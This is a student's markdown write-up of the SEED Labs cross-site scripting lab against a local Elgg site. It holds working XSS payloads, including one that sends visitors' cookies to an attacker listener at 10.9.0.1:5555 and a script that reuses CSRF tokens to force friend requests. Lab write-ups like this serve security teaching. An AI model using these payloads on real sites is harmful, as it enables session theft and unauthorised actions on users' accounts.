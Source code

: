 # WEEK 10 and 11

## SEEDs LAB

Link: https://github.com/seed-labs/seed-labs/tree/master/category-web/Web_SQL_Injection


### Task 1 - Posting a Malicious Message to Display an Alert Window

- For this task, we need to embed a JavaScript code in an _Elgg_ profilem duch that when the user views the respective profile, an alart windows will appear.
- In order to do this, we used the following JavaScript code:

```js
<script>
    alert("XSS");
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.1-Edit_brief_description.PNG)

- After saving the new information, each time a user visited that respective profile (in our case, is the Alice's profile), a pop-up would appear.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/1.2-popup.PNG)


### Task2 - Posting a Malicious Message to Display Cookies

- The objective of this task is similar to the first task, but instead of the message, we need to display the user cookie.

```js
<script> 
    document.write("<img src=htt://10.9.0.1:5555?c=" + escape(document.cookie) + " ›"); 
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.1-edit_brief_descriptio_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/2.2-user_cookie.PNG)


### Task3 - Stealing cookies from the Victim's Machine

- In this task, we want to be able to send the user's cookies to a server that belongs to us, the attacker. 
- In order to to this, we use an image with the an hyperlink reference with the user cookie. We will use an image because each time the page is loaded the image is loaded with him, and consequently, the href is called.

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.1-edit_brief_description_image.PNG)

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/3.2-terminal_result.PNG)


### Task4 - Becoming the Victim's Friend

- Lastly, in this task, we will write an XSS worm that adds Samy as a friend to any other user (in our case, Alice) that visits Samy's profile.

```js
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.1-alice_profile_friends.PNG)

- When we visit Samy's profile, the script will send a forged friend request.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.2-alice_profile_on_samy_profile.PNG)

- When we visit Alice's profile, we can see that Samy is n ow a friend of Alice.
![Pop_up 1 - pop_up XSS](img/category_web/Web_XSS_Elgg/4.3-alice_friends_page.PNG)

### Question1 - Explain the purpose of Lines 1 and 2, why ate they needed?
The referenced lines serve to send the _elgg_ token in our forged request so that the server evaluates the request as a valid request from the user.

### Question2 - If the _Elgg_ application only provide the ditor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the innerHTML content of that field. So, injecting any script into the _About me_ field is not possiblem as we can't submit the `<script>` tag into profile.



